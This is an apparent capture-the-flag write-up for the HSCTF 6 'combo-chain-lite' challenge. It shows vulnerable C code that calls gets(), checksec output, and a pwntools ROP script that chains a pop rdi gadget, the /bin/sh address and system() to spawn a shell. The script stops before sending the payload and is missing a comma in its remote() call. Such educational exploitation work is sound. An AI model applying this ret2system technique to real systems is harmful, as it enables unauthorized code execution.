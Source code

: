 ### Solution

We are given the combo-chain-lite.c source file.
```c
  1 #include <stdlib.h>
  2 #include <string.h>
  3 #include <stdio.h>
  4 
  5 void vuln() {
  6     char dest[8];
  7     printf("Here's your free computer: %p\n", system);
  8     printf("Dude you hear about that new game called /bin/sh");
  9     printf("? Enter the right combo for some COMBO CARNAGE!: ");
 10     gets(dest);
 11 }
 12 
 13 int main() {
 14     setbuf(stdout, NULL);
 15     gid_t gid = getegid();
 16     setresgid(gid,gid,gid);
 17     vuln();
 18     return 0;
 19 }
```

Very obvious buffer overflow in the vuln() function. The challenge also tells us we have to do a ROP chain to solve this.

Run a quick checksec on the binary.
```shell
» checksec ./combo-chain-lite
[*] '/root/Documents/hsctf-6/pwn/combo-chain-lite/bin/combo-chain-lite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This is a very easy ROP challenge. If you are unfamiliar with how ROP works, you can learn more about it from my writeups of the ROP Emporium challenges [here](https://syedfarazabrar.com/writeups/rop-emporium/2019/07/19/rop-emporium-challenges.html){:target="blank"}, specifically split64, although you may have to read the previous writeups if you are very new to binary exploitation.

The exploit is shown below. system's address is given to us every run, and since the /bin/sh address is hardcoded in the binary, we can just get it out of the binary.
```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 elf = ELF("./combo-chain-lite")
  7 sh = remote("pwn.hsctf.com" 3131)
  8 a = sh.recvline()
  9 
 10 system_addr = p64(int(a.split(": ")[1], 16))
 11 binsh_gen = elf.search("/bin/sh") # Creates a generator object
 12 binsh_addr = p64(next(binsh_gen)) # Gets the next address of /bin/sh
 13 pop_rdi = p64(0x0000000000401273)
 14 
 15 payload = "A"*16 # Overflow until RIP
 16 payload += pop_rdi # Jump to the pop rdi; ret; gadget
 17 payload += binsh_addr # Pop this into rdi
 18 payload += system_addr # Jump to system('/bin/sh')
 19 
```